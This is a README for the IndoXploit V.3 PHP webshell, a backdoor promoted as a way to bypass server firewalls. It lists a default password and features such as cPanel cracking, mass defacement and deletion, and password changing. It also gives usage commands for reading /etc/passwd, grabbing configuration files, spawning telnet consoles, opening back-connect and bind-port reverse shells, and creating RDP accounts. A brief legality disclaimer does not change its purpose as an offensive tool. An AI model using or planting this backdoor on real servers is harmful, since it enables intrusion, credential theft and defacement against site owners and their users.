 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

~~~
Usage of indoxploit shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
~~~

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - ***Read File***
~~~
 usage: rf [filename]
 example: rf /etc/passwd
~~~

 - Spawn File/Tools 
 ~~~
 usage: spawn [name]
~~~

[name]
- Adminer (adminer)
- WebConsole (webconsole)
- CGI Telnet 1 (cgitelnet1)
- CGI Telnet 2 (cgitelnet2)
- PHPINFO (phpinfo)

 example:
~~~
 spawn adminer
 spawn webconsole
 spawn cgitelnet1
~~~

- ***Jumping***
~~~
usage: jumping
~~~

- ***Config Grabber***
~~~
usage: idxconfig
~~~

 - ***Symlink***
 ~~~
 usage: symlink
~~~

 - ***Reverse Shell***
 
***[Back Connect]***
~~~
usage: rvr bc [IP] [PORT] [TYPE]
~~~
Example:
~~~
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
~~~

***Bind Port***
~~~
usage: rvr bp [PORT] [TYPE]
~~~
Example:
~~~
rvr bp 1337 perl
~~~

 - ***KRDP - Create RDP Account (for windows server only)***
 ~~~
 usage: krdp
~~~
 - ***Logout From Shell***
 ~~~
 usage: logout
~~~
 - ***Kill Backdoor***
~~~
usage: killme
~~~

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

## Article
-

## Disclaimer
Note: modifications, changes, or changes to this code can be accepted, however, every public release that uses this code must be approved by writing this tool (indoxploit team)
